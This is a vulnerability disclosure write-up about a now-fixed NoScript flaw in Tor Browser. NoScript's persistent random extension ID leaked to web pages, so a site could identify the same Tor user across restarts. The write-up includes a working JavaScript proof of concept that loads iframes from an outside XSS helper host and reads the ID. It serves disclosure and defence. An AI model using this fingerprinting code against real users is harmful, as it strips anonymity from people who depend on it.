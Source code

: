 ```yaml
---
title: Identify Tor user across browser restarts (Fixed)
---
```


"Tor Browser aims to make all users look the same, making it difficult for you to be fingerprinted based on your browser and device information."

NoScript is installed by default and cant be removed.
Other browser extensions are discouraged since there normally fingerprintable <https://gitlab.torproject.org/tpo/applications/tor-browser/-/issues/41581#note_2949932>

On the first install of the Tor browser, NoScript gets assigned a random extension ID that never changes. Because of this Firefox bug: <https://bugzilla.mozilla.org/show_bug.cgi?id=1372288>

This is different to the chromium way of using a universal extension ID for manifest v2 which while did allow detecting if an extension was installed there was no random extension/user ID generated.
Manifest v3 does have a `use_dynamic_url` feature that claims to be "per session and regenerated on browser restart or extension reload"

If the user increases there browser security level to "Safer" or in the NoScript settings page disables the media toggle this ID would be shared to an attacker controlled website using the following PoC:

```js
// Just a blank video
f = document.createElement('iframe');
f.hidden = true;
f.src = 'https://terjanq.me/xss.php?ct=video/mp4';
document.body.appendChild(f);

payload = `
let x = setInterval(() => {
 try {
  parent[0].document.links[0].style.opacity = 1;
  let link = parent[0].document.head.getElementsByTagName('link')[0];
  if (link && link.href) {
   let origin = new URL(link.href).hostname;
   alert('User ID: ' + origin);
   clearInterval(x);
  }
 } catch {}
}, 10);
`;

setTimeout(() => {
  f2 = document.createElement('iframe');
  f2.hidden = true;
  // runs code same-origin as video
  f2.src = 'https://terjanq.me/xss.php?js=' + encodeURIComponent(payload);
  document.body.appendChild(f2);
}, 100);
```

This leak can be found at: <https://github.com/hackademix/nscl/blob/ef1ecbea27e39e255d988a8fb0233ab53c46e57c/content/PlaceHolder.js#L34>

It was fixed in version 11.4.28 by calling `tabs.insertCSS` instead of referencing the css file with `runtime.getURL`

NoScript: <https://github.com/hackademix/noscript/commit/1754429ea1bc458f802c4e4f49f8e8e4ab15f403>  
NSCL: <https://github.com/hackademix/nscl/commit/4c94bf24f117277f5c00878005d91d0d7aaa18e4>
![Tor](https://ndevtk.github.io/writeups/tor.png)

# Was it awarded?

No because it was reported directly but may have been under "Low ($100 - $1000)"
<https://hackerone.com/torproject?type=team>
